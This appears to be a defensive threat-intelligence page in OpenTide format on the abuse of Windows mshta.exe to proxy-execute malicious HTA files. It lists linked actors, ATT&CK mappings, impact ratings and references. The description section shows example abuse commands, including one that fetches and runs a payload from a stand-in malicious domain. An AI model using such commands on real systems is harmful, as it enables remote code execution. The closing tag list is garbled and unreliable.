

# ☣️ Abuse of mshta

🔥 **Criticality:High** ⚠️ : A High priority incident is likely to result in a demonstrable impact to public health or safety, national security, economic security, foreign relations, civil liberties, or public confidence. 

🚦 **TLP:CLEAR** ⚪ : Recipients can spread this to the world, there is no limit on disclosure.


🗡️ **ATT&CK Techniques** [T1218.005 : System Binary Proxy Execution: Mshta](https://attack.mitre.org/techniques/T1218/005 'Adversaries may abuse mshtaexe to proxy execution of malicious hta files and Javascript or VBScript through a trusted Windows utility There are severa')


---

`🔑 UUID : 767f10bd-1947-44e3-b999-5fbf50d99027` **|** `🏷️ Version : 1` **|** `🗓️ Creation Date : 2025-01-09` **|** `🗓️ Last Modification : 2025-01-09` **|** `Sharing Organisation : {'uuid': '56b0a0f0-b0bc-47d9-bb46-02f80ae2065a', 'name': 'EC DIGIT CSOC'}` **|** `🧱 Schema Identifier : tvm::2.0`


## 👁️ Description

> Mshta.exe is a legitimate Microsoft binary used for executing 
> Microsoft HTML Application (HTA) files. Because mshta.exe is digitally signed 
> by Microsoft, malicious actors often abuse it as a "Living off the Land" binary 
> (LOLBin) to evade detection. Attackers can craft malicious HTA or VBScript code 
> and pass it to mshta.exe, effectively bypassing many traditional endpoint 
> security controls.  
> 
> Threat actors have leveraged mshta.exe to stealthily download and execute 
> malicious payloads. By embedding or obfuscating their scripts within HTML 
> or JavaScript code, adversaries can launch mshta.exe to pull additional 
> malware from remote servers.  
> 
> Mshta.exe can also be invoked using command-line arguments that specify 
> a remote or local HTA file. An example of such an abuse might look like:  
> 
> ```bash
> mshta.exe https://malicious[.]domain/payload.hta
> ```
> 
> or
> 
> ```bash
> mshta.exe C:\Path\To\MaliciousScript.hta
> ```
> 
> Once executed, mshta.exe runs with the same privileges as the invoking user 
> (or higher, if misconfigurations or stolen credentials allow for elevated privileges).
> 


## 🖥️ Terrain 

 > Adversary must have at least user-level code execution privileges on a Windows host 
> where Mshta is available to run.
> 

---

## 🕸️ Relations


### 🐲 Actors sightings 

| Actor               | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  | Aliases                                                                                                                                                            | Source                     | Sighting               | Reference                |
|:--------------------|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------|:---------------------------|:-----------------------|:-------------------------|
| [Enterprise] APT29  | [APT29](https://attack.mitre.org/groups/G0016) is threat group that has been attributed to Russia's Foreign Intelligence Service (SVR).(Citation: White House Imposing Costs RU Gov April 2021)(Citation: UK Gov Malign RIS Activity April 2021) They have operated since at least 2008, often targeting government networks in Europe and NATO member countries, research institutes, and think tanks. [APT29](https://attack.mitre.org/groups/G0016) reportedly compromised the Democratic National Committee starting in the summer of 2015.(Citation: F-Secure The Dukes)(Citation: GRIZZLY STEPPE JAR)(Citation: Crowdstrike DNC June 2016)(Citation: UK Gov UK Exposes Russia SolarWinds April 2021)In April 2021, the US and UK governments attributed the [SolarWinds Compromise](https://attack.mitre.org/campaigns/C0024) to the SVR; public statements included citations to [APT29](https://attack.mitre.org/groups/G0016), Cozy Bear, and The Dukes.(Citation: NSA Joint Advisory SVR SolarWinds April 2021)(Citation: UK NSCS Russia SolarWinds April 2021) Industry reporting also referred to the actors involved in this campaign as UNC2452, NOBELIUM, StellarParticle, Dark Halo, and SolarStorm.(Citation: FireEye SUNBURST Backdoor December 2020)(Citation: MSTIC NOBELIUM Mar 2021)(Citation: CrowdStrike SUNSPOT Implant January 2021)(Citation: Volexity SolarWinds)(Citation: Cybersecurity Advisory SVR TTP May 2021)(Citation: Unit 42 SolarStorm December 2020) | Blue Kitsune, Cozy Bear, CozyDuke, Dark Halo, IRON HEMLOCK, IRON RITUAL, Midnight Blizzard, NOBELIUM, NobleBaron, SolarStorm, The Dukes, UNC2452, UNC3524, YTTRIUM | 🗡️ MITRE ATT&CK Groups     | No documented sighting | No documented references |
| UNC2452             | Reporting regarding activity related to the SolarWinds supply chain injection has grown quickly since initial disclosure on 13 December 2020. A significant amount of press reporting has focused on the identification of the actor(s) involved, victim organizations, possible campaign timeline, and potential impact. The US Government and cyber community have also provided detailed information on how the campaign was likely conducted and some of the malware used.  MITRE’s ATT&CK team — with the assistance of contributors — has been mapping techniques used by the actor group, referred to as UNC2452/Dark Halo by FireEye and Volexity respectively, as well as SUNBURST and TEARDROP malware.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            | DarkHalo, StellarParticle, NOBELIUM, Solar Phoenix, Midnight Blizzard                                                                                              | 🌌 MISP Threat Actor Galaxy | No documented sighting | No documented references |
| [ICS] Wizard Spider | [Wizard Spider](https://attack.mitre.org/groups/G0102) is a Russia-based financially motivated threat group originally known for the creation and deployment of [TrickBot](https://attack.mitre.org/software/S0266) since at least 2016. [Wizard Spider](https://attack.mitre.org/groups/G0102) possesses a diverse arsenal of tools and has conducted ransomware campaigns against a variety of organizations, ranging from major corporations to hospitals.(Citation: CrowdStrike Ryuk January 2019)(Citation: DHS/CISA Ransomware Targeting Healthcare October 2020)(Citation: CrowdStrike Wizard Spider October 2020)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    | DEV-0193, FIN12, GOLD BLACKBURN, Grim Spider, ITG23, Periwinkle Tempest, TEMP.MixMaster, UNC1878                                                                   | 🗡️ MITRE ATT&CK Groups     | No documented sighting | No documented references |
| UNC1878             | UNC1878 is a financially motivated threat actor that monetizes network access via the deployment of RYUK ransomware. Earlier this year, Mandiant published a blog on a fast-moving adversary deploying RYUK ransomware, UNC1878. Shortly after its release, there was a significant decrease in observed UNC1878 intrusions and RYUK activity overall almost completely vanishing over the summer. But beginning in early fall, Mandiant has seen a resurgence of RYUK along with TTP overlaps indicating that UNC1878 has returned from the grave and resumed their operations.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |                                                                                                                                                                    | 🌌 MISP Threat Actor Galaxy | No documented sighting | No documented references |

### 🌊 OpenTide Objects
🚫 No related OpenTide objects indexed.


 --- 

### ⛓️ Threat Chaining




<details>
<summary>Expand chaining data</summary>

| ☣️ Vector                                                                                                                                                                                                                    | ⛓️ Link                 | 🎯 Target                                                                                                                                                                                                                                               | ⛰️ Terrain                                                                                                                                                                                          | 🗡️ ATT&CK                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:------------------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| [Abuse of mshta](../Threat%20Vectors/☣️%20Abuse%20of%20mshta.md 'Mshtaexe is a legitimate Microsoft binary used for executing Microsoft HTML Application HTA files Because mshtaexe is digitally signed by Microsoft, m...') | `atomicity::implements` | [Abuse of Windows Utilities](../Threat%20Vectors/☣️%20Abuse%20of%20Windows%20Utilities.md 'Advanced threat actors frequently abuse legitimate Windows utilities to execute malicious code, evade detection, and maintain persistence This techniq...') | Adversaries must have access to a Windows environment where they can execute  built-in utilities. Limited user privileges may suffice,  but administrative privileges enhance the potential impact. | [T1218](https://attack.mitre.org/techniques/T1218 'Adversaries may bypass process andor signature-based defenses by proxying execution of malicious content with signed, or otherwise trusted, binaries B'), [T1197](https://attack.mitre.org/techniques/T1197 'Adversaries may abuse BITS jobs to persistently execute code and perform various background tasks Windows Background Intelligent Transfer Service BITS'), [T1218.004](https://attack.mitre.org/techniques/T1218/004 'Adversaries may use InstallUtil to proxy execution of code through a trusted Windows utility InstallUtil is a command-line utility that allows for ins'), [T1563](https://attack.mitre.org/techniques/T1563 'Adversaries may take control of preexisting sessions with remote services to move laterally in an environment Users may use valid credentials to log i'), [T1140](https://attack.mitre.org/techniques/T1140 'Adversaries may use Obfuscated Files or InformationhttpsattackmitreorgtechniquesT1027 to hide artifacts of an intrusion from analysis They may require'), [T1218.010](https://attack.mitre.org/techniques/T1218/010 'Adversaries may abuse Regsvr32exe to proxy execution of malicious code Regsvr32exe is a command-line program used to register and unregister object li'), [T1218.005](https://attack.mitre.org/techniques/T1218/005 'Adversaries may abuse mshtaexe to proxy execution of malicious hta files and Javascript or VBScript through a trusted Windows utility There are severa') |

</details>
&nbsp; 


---

## Model Data

#### **⛓️ Cyber Kill Chain**

 > Cyber attacks are typically phased progressions towards strategic objectives. The Unified Kill Chains provides insight into the tactics that hackers employ to attain these objectives. This provides a solid basis to develop (or realign) defensive strategies to raise cyber resilience.

 [`⚡ Execution`](https://www.unifiedkillchain.com/assets/The-Unified-Kill-Chain.pdf) : Techniques that result in execution of attacker-controlled code on a local or remote system.

---

#### **🛰️ Domains**

 > Infrastructure technologies domain of interest to attackers.

 `🏢 Enterprise` : Generic databases, applications, machines and systems that are usually on premises or on Cloud traditional VMs.

---

#### **🎯 Targets**

 > Granular delimited technical entities holding a value to the organization, that are targeted by adversaries. They might be also involved in the detection coverage as the target of log collection. Partially inspired by Veris.

  - [`🖥️ Workstations`](http://veriscommunity.net/enums.html#section-asset) : Placeholder
 - [`🖥️ Public-Facing Servers`](http://veriscommunity.net/enums.html#section-asset) : Placeholder
 - [`💻 Laptop`](http://veriscommunity.net/enums.html#section-asset) : User Device - Laptop

---

#### **💿 Platforms concerned**

 > Actual technologies used by the organization that will be exploited by adversaries during a successful attack, and eventually of relevance for detection. Are named by commercial designation.

  - ` Windows` : Placeholder
 - ` Active Directory` : Placeholder

---

#### **💣 Severity**

 > The severity summarizes the overall danger of incident the vector will provoke, and is to be derived (WIP) from impact, leverage, and difficulty to execute.

 [`⚠️ Significant incident`](https://www.ncsc.gov.uk/news/new-cyber-attack-categorisation-system-improve-uk-response-incidents) : A cyber attack which has a serious impact on a large organisation or on wider / local government, or which poses a considerable risk to central government or (inter)national essential services.

---

#### **🪄 Leverage acquisition**

 > Technical aftermath of the attack from the target perspective, differentiated from impact as it does not consider the value of the consequence, only what increased control the vector execution provides to the adversary.

  - [`👻 Spoofing`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Threat action aimed at accessing and use of another user’s credentials, such as username and password.
 - [`💅 Elevation of privilege`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Capacity to augment leverage over the target system by upgrading the compromised access rights
 - [`📦 Software installation`](https://owasp.org/www-community/Threat_Modeling_Process#stride) : Software installation or code modification

---

#### **💥 Impact**

 > Analysis of the threat vector from the organizational perspective, in non technical term. This aims at putting a clear denomination on what the attacker will actually be able to act upon if the threat vector is realized.

  - [`🔓 Data Breach`](http://veriscommunity.net/enums.html#section-impact) : Non-public information has been accessed from the outside, and successfully extracted.
 - [`🌍 Reputational Damages`](http://veriscommunity.net/enums.html#section-impact) : Damages to the organization public view may be achieved by using directly the access gained, or indirectly with data gathered.
 - [`🛑 Business disruption`](http://veriscommunity.net/enums.html#section-impact) : Business disruption

---

#### **🎲 Vector Viability**

 > Described with estimative language (likelyhood probability), describes how likely the analyst believes the vector to actually be realized on the organization infrastructure. Estimative language describes quality and credibility of underlying sources, data, and methodologies based Intelligence Community Directive 203 (ICD 203) and JP 2-0, Joint Intelligence.

 [`🧐 Likely`](https://www.dni.gov/files/documents/ICD/ICD%20203%20Analytic%20Standards.pdf) : Probable (probably) - 55-80%

---


### 🔗 References


**🕊️ Publicly available resources**

- [_1_] https://lolbas-project.github.io/lolbas/Binaries/Mshta/
- [_2_] https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
- [_3_] https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
- [_4_] https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
- [_5_] https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/

[1]: https://lolbas-project.github.io/lolbas/Binaries/Mshta/
[2]: https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html#menu_index_4
[3]: https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Payloads/mshta.sct
[4]: https://oddvar.moe/2017/12/21/applocker-case-study-how-insecure-is-it-really-part-2/
[5]: https://oddvar.moe/2018/01/14/putting-data-in-alternate-data-streams-and-how-to-execute-it/

---

#### 🏷️ Tags

#-, #-, #-, #
, #
, ##, ##, ##, ##, # , #🏷, #️, # , #T, #a, #g, #s, #
, #


